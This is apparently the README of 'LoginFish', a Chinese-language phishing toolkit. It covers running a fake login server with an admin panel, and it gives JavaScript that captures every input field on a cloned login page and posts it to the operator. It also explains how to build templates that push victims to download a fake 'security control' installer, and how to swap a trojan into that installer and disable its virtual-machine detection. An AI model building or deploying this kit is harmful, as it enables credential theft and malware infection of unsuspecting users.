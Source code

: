 # LoginFish 通用钓鱼工具


![index](/images/index.png)
![admin](/images/admin.png)
![admin2](/images/index2.png)
![admin3](/images/index3.png)

## 使用方法


```
# 后台登录密码,请修改 password.txt 
# 第一次运行会自动生成密码 写到 password.txt
# 后台地址 http://host:5522/admin/login
# 默认端口5522 

./LoginFish port
./LoginFish 80

```


## 密码记录

![](images/body.png)

可以参考`/static/template/front_login_keylogger.html`文件

所有`input`标签的内容都会被提交到后端,引用`<script src="/static/dist/login.js"></script>`并把登录按钮绑定到`login_submit()`函数即可

你也可以自定义`login.js`,并控制登录之后的返回信息

比如说点击登录之后执行`alert('帐号/密码校验不通过')`

```js
function login_submit() {
    var input = document.getElementsByTagName('input')
    var data = ''
    for (var i = 0; i < input.length; i++) {
        const put = input[i]
        var name = ''
        if (put.className) name = '_' + put.className
        if (put.name) name = '_' + put.name
        var key = `input[${i}${name}]=${put.value}`;
        data = data + key + '&'
    }
    if (data != '') post(data)
    console.log(data)
}
```


## 模板修改

打开`static/template/`目录,默认有俩个模板,分别是`front_login_1.html`和`front_login.html`

如果需要`css`和`js`文件则把其放在`static/dist`中

模板中使用`<script src="/static/dist/login.js"></script>` 这样的路径进行引用

如果需要自定义模板,则在`static/template/`中创建以`front_`开头的html文件即可.

然后需要引用`<script src="/static/dist/login.js"></script>` 文件,再把某个下载按钮绑定到`onclick_input`事件即可

```js
 <div onclick="onclick_input()">
        <label for="password">密码</label>
        <input name="password" class="password" type="password" disabled placeholder="下载安全控件" id="password">
 </div>
```

或者你也可以直接使用`<a href='/down'>下载</a>` 这样的方式去绑定下载地址.

## SafeInstall 模拟安全控件

使用`Visual Studio 14`开发,替换木马需要修改资源文件中的`load`

如果需要关闭屏蔽虚拟机,则编辑`SafeInstall/SafeInstall/Form1.cs`文件

```c#
public Form1()
{
    checkVM(); //注释该行即可
    writeFile();
    InitializeComponent();
    progressBar1.Value = 0;
    timer1.Interval = 50;
    timer1.Start();
}
```

